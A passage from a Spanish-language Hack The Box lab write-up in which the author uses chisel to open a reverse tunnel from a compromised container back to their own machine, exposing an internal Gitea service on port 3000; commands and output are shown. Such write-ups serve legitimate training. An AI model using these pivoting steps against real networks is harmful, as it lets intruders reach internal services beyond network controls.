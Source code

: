 Excelente, para que funcione **chisel** debemos abrir un servidor y un cliente, siendo que nuestra máquina será el servidor y el contenedor el cliente.

Quedaría de esta forma:

* Nuestra máquina como servidor usando el **puerto 1234**:
```bash
./chisel server --reverse -p 1234
2024/10/08 01:04:31 server: Reverse tunnelling enabled
2024/10/08 01:04:31 server: Fingerprint +775...
2024/10/08 01:04:31 server: Listening on http://0.0.0.0:1234
```

* Contenedor como cliente, aplicando **port forwarding** hacia nuestro **puerto 3000**:
```bash
/tmp # ./chisel client Tu_IP:1234 R:3000:172.17.0.1:3000
./chisel client Tu_IP:1234 R:3000:172.17.0.1:3000
2024/10/08 07:05:21 client: Connecting to ws://Tu_IP:1234
2024/10/08 07:05:22 client: Connected (Latency 161.096577ms)
```

* Comprueba si ya está funcionando nuestro **puerto 3000**:
```bash
lsof -i:3000
COMMAND    PID USER   FD   TYPE  DEVICE SIZE/OFF NODE NAME
chisel  311354 root    7u  IPv6 1075283      0t0  TCP *:3000 (LISTEN)
```

Una vez realizado esto, podemos entrar desde el navegador al **localhost** al puerto 3000 para ver la página de **Gitea**:

<p align="center">
<img src="/assets/images/htb-writeup-opensource/Captura25.png">
</p>
